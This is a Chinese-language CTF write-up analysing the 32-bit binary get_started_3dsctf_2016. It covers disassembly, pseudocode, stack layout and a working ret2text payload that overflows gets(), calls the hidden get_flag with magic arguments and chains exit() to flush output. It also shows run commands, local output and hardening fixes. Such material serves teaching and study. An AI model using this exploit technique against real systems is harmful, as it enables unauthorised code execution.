



# 05 · get_started_3dsctf_2016 — 逆向分析与利用

> 目标：`get_started_3dsctf_2016`（ELF32 / i386 / 静态链接 / 未剥离）
> 结论：`main` 中 `gets()` 无边界检查，可覆盖返回地址；程序内存在一个从未被调用的隐藏后门
> `get_flag(int, int)`，只要在栈上伪造两个 magic 参数即可读取 `flag.txt`。
> 由于远端 stdout 是全缓冲，返回地址需要再接到 `exit()`，借助 `_IO_cleanup` 刷新缓冲区后才能收到 flag。

---

## 1. 目标情报与保护机制

### 1.1 文件属性

| 项目 | 结果 |
| --- | --- |
| 文件类型 | ELF 32-bit LSB executable, Intel i386 |
| 链接方式 | **statically linked**（libc 已静态编入，无外部 `.so`） |
| 符号表 | **not stripped**（`main` / `get_flag` / `exit` 均可见） |
| 入口点 | `_start @ 0x0804884f` |
| 编译环境 | GCC (Debian 6.2.1-5) 6.2.1 / clang 3.8.1 |
| MD5 | `d3608a09a8a11fac442de0462e1c8ad1` |

### 1.2 checksec

```text
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

- **No PIE**：代码段基址固定为 `0x8048000`，可以在 payload 中硬编码函数绝对地址。
- **No canary**：栈溢出不会被检测，可以放心覆盖返回地址。
- **NX enabled**（`GNU_STACK` 为 `RW`）：栈不可执行，因此采用 **ret2text**，不需要 shellcode。
- **Partial RELRO**：GOT 可写，但本题不需要改 GOT。
- **Not stripped**：直接 `nm` 即可拿到后门地址。

### 1.3 关键符号

| 符号 | 地址 | 作用 |
| --- | --- | --- |
| `_start` | `0x0804884f` | ELF 入口，调用 `__libc_start_main` |
| `__libc_start_main` | `0x08048e00` | 初始化 libc 并调用 `main` |
| `main` | `0x08048a20` | 打印提示语 + `gets()` |
| `get_flag` | `0x080489a0` | **隐藏后门**，读取 `flag.txt` |
| `exit` | `0x0804e6a0` | 退出并刷新 stdio 缓冲区 |
| `_IO_printf` | `0x0804f0e0` | 打印提示语 |
| `_IO_gets` | `0x0804f630` | 无边界读取（漏洞点） |
| `_IO_new_fopen` | `0x0804f610` | 打开 flag 文件 |
| `_IO_getc` | `0x08051160` | 逐字节读取 |
| `putchar` | `0x0804f7a0` | 逐字节输出 |
| `_IO_new_fclose` | `0x0804f1d0` | 关闭文件 |

### 1.4 关键字符串

| 虚拟地址 | 内容 | 使用位置 |
| --- | --- | --- |
| `0x080bc391` | `"Qual a palavrinha magica? "` | `main` → `_IO_printf` |
| `0x080bc388` | `"flag.txt"` | `get_flag` → `_IO_new_fopen` 文件名 |
| `0x080cdd68` | `"rt"` | `get_flag` → `_IO_new_fopen` 打开模式 |

> 交叉引用检查：`objdump -d | grep -E 'call.*80489a0'` 的结果为 **0**，
> 说明 `get_flag` 没有被任何代码直接调用，是典型的“隐藏后门”。

---

## 2. 目标架构图（Runtime Architecture）



**架构要点**

1. `_start` 按 glibc 启动约定调用
   `__libc_start_main(main, argc, argv, __libc_csu_init, __libc_csu_fini, rtld_fini, stack_end)`，
   最终进入 `main @ 0x8048a20`。
2. `main` 只有两条外部交互：`printf` 输出提示语、`gets` 读取输入；
   输入被写入**栈上局部缓冲区**，没有任何长度限制。
3. `get_flag` 与正常调用图完全断开（无交叉引用），只能通过覆盖返回地址“手动”进入。
4. `get_flag` 读取 `flag.txt`，用 `putchar` 写到 stdout；远端 socket 下 stdout 为**全缓冲**，
   必须再走到 `exit()`，由 `__run_exit_handlers` 中的 `_IO_cleanup` 完成 flush。

### 2.1 main 栈帧布局

```text
        低地址
        ┌──────────────────────────────┐
 esp+0x00│ 4 B 传参槽（gets/printf 复用）│
 esp+0x04│                              │
        │ char buf[56]                 │  ← gets() 写入起点
        │                              │
 esp+0x3b│                              │
 esp+0x3c├──────────────────────────────┤
        │ saved EIP（main 的返回地址）  │  ← 56 B 后正好覆盖
 esp+0x40├──────────────────────────────┤
        │ main 调用者的栈参数/残留数据  │  ← payload 从这里继续布置
        └──────────────────────────────┘
        高地址
```

> 编译器使用 `-fomit-frame-pointer`（`sub esp,0x3c` 后直接 `ret`，没有 `push ebp`），
> 因此偏移是 `0x3c - 0x04 = 0x38 = 56` 字节，而不是常见的 `buf + saved ebp + ret` 结构。

---

## 3. 数据流图（DFD）

### 3.1 图例

- 矩形：外部实体（攻击者、运行环境）
- 圆角矩形：处理过程（P）
- 圆柱：数据存储（D）
- 箭头：数据流（F）

### 3.2 Level-1 数据流



### 3.3 数据流说明

| 编号 | 数据流 | 说明 |
| --- | --- | --- |
| F0 | 攻击者 → P1 | 远端为 TLS socket，本地为 `process()` 管道；`gets` 直接读取 |
| F1 | P1 → 攻击者 | `printf("Qual a palavrinha magica? ")`；非 tty 时被全缓冲，不保证立即到达 |
| F2 | P1 → D1 | `gets` 不检查长度，任意字节写入 `buf` 并向上增长 |
| F3 | D1 → P2 | 56 B 后覆盖 saved EIP；其后 12 B 成为 `get_flag` 的伪返回地址与两个参数 |
| F4 | P2 → P3 | `main` 的 `ret` 弹出被覆盖的 EIP，跳转到 `get_flag` |
| F5 | P3 → P4 | `arg1 == 0x308cd64f && arg2 == 0x195719d1` 时才继续 |
| F6/F7 | D2 → P4 | `fopen("flag.txt","rt")` 后由 `getc` 逐字节读出 |
| F8 | P4 → D3 | `putchar` 写入 stdout 缓冲区；socket 场景下不会立即发送 |
| F9 | P4 → P5 | `get_flag` 的 `ret` 落到伪造的 `exit` 地址 |
| F10 | P5 → D3 | `exit → __run_exit_handlers → _IO_cleanup`，刷新所有 stdio 流 |
| F11 | D3 → 攻击者 | 缓冲区内容真正写入 socket / pipe，flag 才到达攻击者 |

> **关键数据流是 F8 + F10 + F11 的组合**：只跳 `get_flag` 而不跳 `exit`，远端会因缓冲区未刷新而“看不到 flag”。

---

## 4. 反汇编 → 伪代码

### 4.1 `main`（`0x08048a20`）

```assembly
08048a20 <main>:
 8048a20: 83 ec 3c                sub    esp, 0x3c              ; 开辟 60 B 栈帧
 8048a23: c7 04 24 91 c3 0b 08    mov    DWORD PTR [esp], 0x80bc391
 8048a2a: e8 b1 66 00 00          call   804f0e0 <_IO_printf>   ; printf(prompt)
 8048a2f: 8d 44 24 04             lea    eax, [esp+0x4]         ; &buf
 8048a33: 89 04 24                mov    DWORD PTR [esp], eax
 8048a36: e8 f5 6b 00 00          call   804f630 <_IO_gets>     ; gets(&buf)
 8048a3b: 31 c0                   xor    eax, eax               ; return 0
 8048a3d: 83 c4 3c                add    esp, 0x3c              ; 释放栈帧
 8048a40: c3                      ret
```

**还原伪代码（等价语义）**

```c
int main(void)
{
    char buf[56];                       /* [esp+0x04 .. esp+0x3b] */

    printf("Qual a palavrinha magica? ");
    gets(buf);                          /* 漏洞：无长度限制，写入不限字节 */

    return 0;
}
```

**分析**

- `sub esp, 0x3c` 分配 60 字节：`[esp]` 是 outgoing argument slot，`buf` 位于 `esp+4`。
- `main` 的 saved EIP 保存在 `[esp+0x3c]`，距离 `buf` 起点 `0x38 = 56` 字节。
- `gets` 会持续读取直到换行，并在末尾补 `\x00`；输入超过 56 字节即可覆盖 saved EIP。
- 因为 `gets` 的 `\x00` 落在返回地址之后的栈数据上，不影响 4 字节返回地址本身
  （与 64 位题目的“幽灵截断”不同）。

### 4.2 `get_flag`（`0x080489a0`）

```assembly
080489a0 <get_flag>:
 80489a0: 56                      push   esi                    ; 保存 esi
 80489a1: 83 ec 08                sub    esp, 0x8               ; 栈帧
 80489a4: 81 7c 24 10 4f d6 8c 30  cmp  DWORD PTR [esp+0x10], 0x308cd64f
 80489ac: 75 67                   jne    8048a15 <get_flag+0x75> ; arg1 不匹配 → 返回
 80489ae: 81 7c 24 14 d1 19 57 19  cmp  DWORD PTR [esp+0x14], 0x195719d1
 80489b6: 75 5d                   jne    8048a15 <get_flag+0x75> ; arg2 不匹配 → 返回
 80489b8: c7 44 24 04 68 dd 0c 08  mov  DWORD PTR [esp+0x4], 0x80cdd68  ; "rt"
 80489c0: c7 04 24 88 c3 0b 08     mov  DWORD PTR [esp], 0x80bc388    ; "flag.txt"
 80489c7: e8 44 6c 00 00           call 804f610 <_IO_new_fopen>
 80489cc: 89 c6                    mov  esi, eax              ; FILE *fp
 80489ce: 89 34 24                 mov  DWORD PTR [esp], esi
 80489d1: e8 8a 87 00 00           call 8051160 <_IO_getc>    ; c = getc(fp)
 80489d6: 0f b6 c8                 movzx ecx, al
 80489d9: 81 f9 ff 00 00 00        cmp  ecx, 0xff
 80489df: 74 2c                    je   8048a0d <get_flag+0x6d> ; EOF / 0xFF → 关闭
 80489e1: 0f be c8                 movsx ecx, al
 80489e4: 66 66 66 2e 0f 1f 84 00 00 00 00 00   ; 对齐填充（NOP）
 80489f0: 89 0c 24                 mov  DWORD PTR [esp], ecx
 80489f3: e8 a8 6d 00 00           call 804f7a0 <putchar>     ; putchar(c)
 80489f8: 89 34 24                 mov  DWORD PTR [esp], esi
 80489fb: e8 60 87 00 00           call 8051160 <_IO_getc>    ; c = getc(fp)
 8048a00: 0f be c8                 movsx ecx, al
 8048a03: 0f b6 c0                 movzx eax, al
 8048a06: 3d ff 00 00 00           cmp  eax, 0xff
 8048a0b: 75 e3                    jne  80489f0 <get_flag+0x50> ; 继续输出
 8048a0d: 89 34 24                 mov  DWORD PTR [esp], esi
 8048a10: e8 bb 67 00 00           call 804f1d0 <_IO_new_fclose>
 8048a15: 83 c4 08                 add  esp, 0x8
 8048a18: 5e                       pop  esi
 8048a19: c3                       ret
```

**还原伪代码（等价语义）**

```c
void get_flag(uint32_t arg1, uint32_t arg2)
{
    if (arg1 != 0x308cd64f)             /* [esp+0x10] */
        return;
    if (arg2 != 0x195719d1)             /* [esp+0x14] */
        return;

    FILE *fp = fopen("flag.txt", "rt"); /* 0x80bc388, 0x80cdd68 */
    int c = getc(fp);

    if ((unsigned char)c != 0xFF) {
        do {
            putchar(c);
            c = getc(fp);
        } while ((unsigned char)c != 0xFF);
    }

    fclose(fp);
}
```

**cdecl 参数位置推导**

```text
get_flag 入口（ret 刚弹出）:
    E+0x00 : 伪造的返回地址 → exit
    E+0x04 : arg1 = 0x308cd64f
    E+0x08 : arg2 = 0x195719d1

执行 push esi; sub esp,8 之后 esp = E-0x0c:
    [esp+0x10] = [E+0x04] = arg1
    [esp+0x14] = [E+0x08] = arg2
```

**细节**

- 汇编用 `cmp ..., 0xff` 判断结束，因此源码语义等价于
  `while ((unsigned char)c != 0xFF)`；正常 EOF（`-1`）低字节正是 `0xFF`，
  但文件中若出现字面量 `0xFF` 也会提前结束（对文本 flag 无影响）。
- `fopen` 的返回值没有做 NULL 检查；本地缺少 `flag.txt` 时会执行 `getc(NULL)` 崩溃，
  远端环境存在该文件，因此正常返回 flag。

### 4.3 `exit`（`0x0804e6a0`）——为什么必须接它

```assembly
0804e6a0 <exit>:
 804e6a0: 83 ec 0c             sub    esp, 0xc
 804e6a3: 6a 01                push   0x1
 804e6a5: 6a 01                push   0x1
 804e6a7: 68 70 b0 0e 08       push   0x80eb070            ; &__exit_funcs
 804e6ac: ff 74 24 1c          push   DWORD PTR [esp+0x1c] ; status
 804e6b0: e8 cb fe ff ff       call   804e580 <__run_exit_handlers>
```

伪代码：

```c
void exit(int status)
{
    __run_exit_handlers(&__exit_funcs, true, true, status);
    /* __run_exit_handlers 遍历 __exit_funcs，
       并调用 __elf_set___libc_atexit_element__IO_cleanup__
       （0x80d6b34）→ _IO_cleanup（0x8055370）→ flush 所有 stdio 流 */
}
```

- 远端通过 socket 连接时 stdout 不是 tty，采用**全缓冲**：`putchar` 写出的 flag 留在用户态缓冲区。
- 若 `get_flag` 直接 `ret` 到非法地址，进程崩溃，缓冲区不会刷新，攻击者收不到 flag。
- 把 `get_flag` 的伪返回地址设为 `exit`，即可在读完文件后正常 flush 并退出。

> 进入 `exit` 时栈顶是我们的参数区，`exit` 取到的 `status` 是残留栈值（本地实测退出码 209），
> 这只是退出状态，与 flag 输出无关。

---

## 5. 漏洞与利用链

### 5.1 漏洞成因

`main` 调用 `gets(buf)`：

- `gets` 没有长度参数，读取到换行或 EOF 才停止；
- 编译器没有插入 canary（`checksec: No canary found`）；
- 栈地址与代码地址固定（`No PIE`），返回地址可直接硬编码；
- 二进制中存在一个没有任何调用者的 `get_flag`，天然构成 ret2text 目标。

### 5.2 payload 布局

以 `buf` 起点为偏移 0：

| 偏移 | 长度 | 内容 | 作用 |
| --- | --- | --- | --- |
| `0x00 – 0x37` | 56 B | `b'A' * 56` | 填满 `buf` |
| `0x38 – 0x3b` | 4 B | `p32(0x080489a0)` | 覆盖 saved EIP → `get_flag` |
| `0x3c – 0x3f` | 4 B | `p32(0x0804e6a0)` | `get_flag` 的伪返回地址 → `exit` |
| `0x40 – 0x43` | 4 B | `p32(0x308cd64f)` | `get_flag` 的 arg1 |
| `0x44 – 0x47` | 4 B | `p32(0x195719d1)` | `get_flag` 的 arg2 |

总计 **72 字节**，对应 `exp.py` 中：

```python
payload = flat(
    b'A' * 0x38,          # 56 B
    p32(0x080489a0),      # get_flag
    p32(0x0804e6a0),      # exit（刷新 stdout）
    p32(0x308cd64f),      # arg1
    p32(0x195719d1),      # arg2
)
```

### 5.3 栈状态变化

```text
① main 刚执行完 gets，payload 已写入：

   buf 起点 →  AAAAAAAAAAAAAAAA...（56 B）...AAAA
               ┌───────────────┐
   esp+0x3c    │ 0x080489a0    │  ← 原 saved EIP 被覆盖
   esp+0x40    │ 0x0804e6a0    │  ← 将来 get_flag 的返回地址
   esp+0x44    │ 0x308cd64f    │  ← 将来 arg1
   esp+0x48    │ 0x195719d1    │  ← 将来 arg2
               └───────────────┘

② main 执行 ret：EIP = get_flag，esp = E（E 为 get_flag 入口栈顶）

   E+0x00 → exit
   E+0x04 → 0x308cd64f   = arg1
   E+0x08 → 0x195719d1   = arg2

③ get_flag 执行 push esi; sub esp,8 后：

   [esp+0x10] = arg1 = 0x308cd64f  ✓
   [esp+0x14] = arg2 = 0x195719d1  ✓

④ get_flag 执行 ret → exit → __run_exit_handlers → _IO_cleanup
   → flush stdout → 攻击者收到 flag
```

### 5.4 i386 不需要栈对齐 gadget

x86-32 的 cdecl 调用约定不要求 16 字节栈对齐，glibc 的 `printf` / `fopen` 等函数
在 i386 下也没有 amd64 那种 `movaps` 对齐崩溃问题。因此 payload 中
**不需要额外插入 `ret` gadget 做栈对齐**，可以直接 `ret2text`。

---

## 6. 业务逻辑流程图



**业务逻辑解读**

1. **正常业务**：程序只负责打印一句葡萄牙语提示并读取一行输入，随后 `return 0`。
   源码里根本没有“判断口令 → 输出 flag”的正常业务分支。
2. **隐藏业务**：`get_flag` 是游离在调用图之外的后门，必须由攻击者构造栈帧“手动调用”。
3. **两个 magic 常量**：`0x308cd64f`、`0x195719d1` 是进入后门的唯一门槛；
   由于它们以立即数形式硬编码在二进制中，静态分析即可直接提取。
4. **输出条件**：读到 flag 后还必须走到 `exit` 刷新 stdio 缓冲区，否则远端全缓冲会吞掉输出。

---

## 7. 环境激活与本地验证

### 7.1 激活项目虚拟环境

```bash
cd '/home/yfhd5/Pwn Writeups'
source .venv/bin/activate
cd 05_get_started_3dsctf_2016

python -c "import pwn; print(pwn.version)"   # 4.15.0
checksec --file=get_started_3dsctf_2016
```

### 7.2 运行 exploit

```bash
python exp.py          # 连接 CTF² 远端（TLS :9999）
python exp.py LOCAL    # 本地复现，需要当前目录存在 flag.txt
```

### 7.3 本地验证结果

在 `/tmp` 中复制二进制、`exp.py` 并写入测试 flag：

```bash
mkdir -p /tmp/gs_exp && cd /tmp/gs_exp
cp '/home/yfhd5/Pwn Writeups/05_get_started_3dsctf_2016/'{get_started_3dsctf_2016,exp.py} .
printf 'flag{local_validation_0k}\n' > flag.txt
'/home/yfhd5/Pwn Writeups/.venv/bin/python' exp.py LOCAL
```

实际输出：

```text
[*] Local mode: ./get_started_3dsctf_2016
[*] payload = 72 bytes, ret -> get_flag@0x80489a0
[*] args = (0x308cd64f, 0x195719d1), fake ret -> exit@0x804e6a0
[*] Process './get_started_3dsctf_2016' stopped with exit code 209 (pid 33448)
[+] Receiving all data: Done (52B)

[🎉] GOT THE FLAG: flag{local_validation_0k}
```

- **payload 72 字节** 与偏移计算一致。
- 退出码 `209` 来自 `exit` 读取到的残留 `status`，属于正常现象。
- 若把伪返回地址改成任意非法地址，则本地只能收到提示语，收不到 flag——
  这验证了 `exit` 在“刷新 stdout”上的必要性。

---

## 8. 修复建议

| 风险 | 修复方式 |
| --- | --- |
| `gets` 无边界写入 | 改用 `fgets(buf, sizeof(buf), stdin)`，并检查返回值 |
| 隐藏后门 `get_flag` | 删除该函数；若必须保留，用真正的鉴权/权限校验，而不是硬编码 magic |
| 返回地址可被覆盖 | 开启 `-fstack-protector-strong`（canary） |
| 代码地址固定 | 开启 `-pie -fPIE` |
| GOT 可写 | 开启 `-Wl,-z,relro,-z,now`（Full RELRO） |
| 静态链接扩大攻击面 | 评估是否真的需要静态链接；静态链接并不阻止 ret2text |
| 全缓冲导致输出依赖 `exit` | 不是安全修复点，但服务端应显式 `setvbuf(stdout, NULL, _IONBF, 0)` 或使用 `fflush` |

> 本题是教学靶场：真正的设计缺陷不是缓冲区大小，而是**“隐藏后门 + 无边界输入 + 固定地址”**三者叠加。

---

## 附录：一键分析命令

```bash
# 基本信息与保护
file get_started_3dsctf_2016
checksec --file=get_started_3dsctf_2016

# 函数地址
nm -n get_started_3dsctf_2016 | grep -E ' (main|get_flag|exit)$'

# 关键函数反汇编
objdump -d -M intel get_started_3dsctf_2016 | sed -n '/<main>:/,/^$/p'
objdump -d -M intel get_started_3dsctf_2016 | sed -n '/<get_flag>:/,/^$/p'
objdump -d -M intel get_started_3dsctf_2016 | sed -n '/<exit>:/,/^$/p'

# 确认后门无交叉引用（输出 0）
objdump -d -M intel get_started_3dsctf_2016 | grep -cE 'call.*80489a0'

# 关键字符串
strings -a -t x get_started_3dsctf_2016 | grep -E 'flag.txt|palavrinha'
```

> Mermaid 图需要在支持 Mermaid 的 Markdown 预览中查看
> （本机 VS Code 已安装 `vstirbu.vscode-mermaid-preview` / `mermaidchart.vscode-mermaid-chart`，
> 打开本文件后使用 “Mermaid Preview” 或 Markdown Preview 即可渲染）。


